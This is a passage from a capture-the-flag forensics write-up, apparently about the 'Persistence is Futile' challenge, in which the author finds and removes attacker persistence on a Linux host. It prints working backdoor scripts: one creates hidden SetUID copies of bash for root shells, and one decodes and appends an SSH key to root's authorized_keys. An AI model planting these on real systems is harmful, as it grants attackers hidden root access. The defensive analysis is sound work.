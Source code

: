 while : ; do
    NEW_UUID=$(cat /dev/urandom | tr -dc 'a-z' | fold -w 6 | head -n 1)
    [[ -f "{$DIR}/${NEW_UUID}" ]] || break
done

cp /bin/bash ${DIR}/${NEW_UUID}
touch ${DIR}/${NEW_UUID} -r /bin/bash
chmod 4755 ${DIR}/${NEW_UUID}
This is a really cool (and by “cool”, I of course mean DANGEROUS) bash script. Here’s what it’s doing line by line. First we define “DIRS” as either /bin or /sbin. Then we’re going to define another variable DIR that is going to divide a random number by 2, and if it has a remainder (i.e. it’s odd) we’ll use /sbin and if has no remainder we use /bin (2 % 2 = 0, 3 % 2 = 1). After that, it generates a random number via /dev/urandom and then converts the random number to alphabetic characters (a-z). So let’s say it generates the number “21312566”, then it will convert it to something like “folofwtt” then use fold -w 6 to take the first 6 characters, leaving us with “folofw” as our potential file name.

Once it’s generated a file name, it runs cp /bin/bash ${DIR}/${NEW_UUID} to essentially copy the bash shell into whatever DIR it landed on (/bin or /sbin) and then naming it according to the random name that was generated. So in my example, /bin/folofwtt actually is the same binary as /bin/bash. SPOOKY. The very last line is the most important part of this little script though. chmod 4755 is a huge red flag because the 4 means we’re giving this binary SetUID permission… aka root permission!. So if I, Joe Hacker, was to execute the random binary we generated (/bin/folofwtt) it would actually spawn an instance of /bin/bash owned by the user root. Yeah… big yikes here, so we DEFINITELY want to delete this script.

pyssh
#!/bin/sh

VER=$(python3 -c 'import ssh_import_id; print(ssh_import_id.VERSION)')
MAJOR=$(echo $VER | cut -d'.' -f1)

if [ $MAJOR -le 6 ]; then
    /lib/python3/dist-packages/ssh_import_id_update
fi
This script looks to be using a python module called ssh_import_id_update to do something. Investigating this file further:

#!/bin/bash
KEY=$(echo "c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSUhSZHg1UnE1K09icTY2Y3l3ejVLVzlvZlZtME5DWjM5RVBEQTJDSkRxeDEgbm9ib2R5QG5vdGhpbmcK" | base64 -d)
PATH=$(echo "L3Jvb3QvLnNzaC9hdXRob3JpemVkX2tleXMK" | base64 -d)

/bin/grep -q "$KEY" "$PATH" || echo "$KEY" >> "$PATH"
This script is adding whatever KEY is to PATH. They’re base64 encoded so let’s just run the commands and see what’s inside: /images/htb/challenges/forensics/persistenceisfutile/key.png /images/htb/challenges/forensics/persistenceisfutile/path.png

So this script is being used to add a public SSH key to the root user’s authorized_keys file. Meaning they’ll be able to SSH in as root whenever they want. So we’re gonna go ahead and remove this script and the cronjob that calls it. And with that, we’ve cleared all the potentially nasty cron jobs. Last thing in this step is to remove that SSH key from our authorized_keys file.

Binaries with SetUID permissions
Our next step is going to be to take a look at any binaries that are owned by root and also have SetUID permissions. To do this, we can use the command find / -user root -perm -4000 -print. Remember earlier, we found a script that generates binaries as root with 6-character names:
